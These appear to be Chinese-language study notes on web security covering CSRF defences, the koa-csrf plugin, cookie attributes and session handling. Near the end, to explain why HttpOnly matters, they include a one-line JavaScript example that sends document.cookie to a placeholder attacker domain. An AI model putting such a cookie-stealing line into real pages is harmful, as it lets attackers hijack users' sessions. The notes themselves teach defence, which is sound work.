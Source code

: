 ### 如何防范 CSRF

- 不让 get 请求对数据进行修改；
- 不让第三方网站访问到用户的 cookie，设置 cookie 的 SameSite 属性为 strict 或 lax，不让 cookie 随跨域请求携带（就 cookie 不让第三方网站使用）；
- 阻止第三方网站请求接口，验证 Referer 和 Origin；
- Token 验证，登陆后服务器下发一个随机 token，之后的请求带上。
- 图形验证码，比较好，但会降低用户体验。（如ccap）

> SameSite 目前只有 Chrome 支持

### koa-csrf

koa-csrf 插件用来防止 CSRF 攻击。原理是在 session 之中写入一个秘密的 token，用户每次使用 POST 方法提交数据的时候，必须含有这个 token，否则就会抛出错误。

POST 请求含有 token，可以是以下几种方式之一，koa-csrf 插件就能获得 token。

- 表单的\_csrf 字段
- 查询字符串的\_csrf 字段
- HTTP 请求头信息的 x-csrf-token 字段
- HTTP 请求头信息的 x-xsrf-token 字段

## 前端 Cookies 问题

> - [SameSite cookies explained](https://web.dev/samesite-cookies-explained/)
> - [Cookie 的 SameSite 属性](http://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)

- 是一个前端的数据存贮；
- 前后端都可以设置；
- 遵循同源策略；

属性设置：

- Secure 属性：指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。
- HttpOnly 属性：指定该 Cookie 无法通过 JavaScript 脚本拿到

### Cookies 登录用户签名：

- 用户 ID，容易被篡改。
- 用户 ID + 签名，避免篡改 cookie
- sessionId。

每次登录生成随机的 sessionId，然后生成一个 session 对象，下面存放 userId 等用户信息。session 数据较多，不能放在内存中。如果放在内存，也会涉及服务器重启丢失的问题。一般将 session 放在缓存中。为了让登陆的用户同步，会将 session 放到外部存储机。

- token

### cookie 和 xss 的关系

cookie 容易被盗；

```js
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

防止：HttpOnly 设置为 true，但这个属性兼容性不太好。
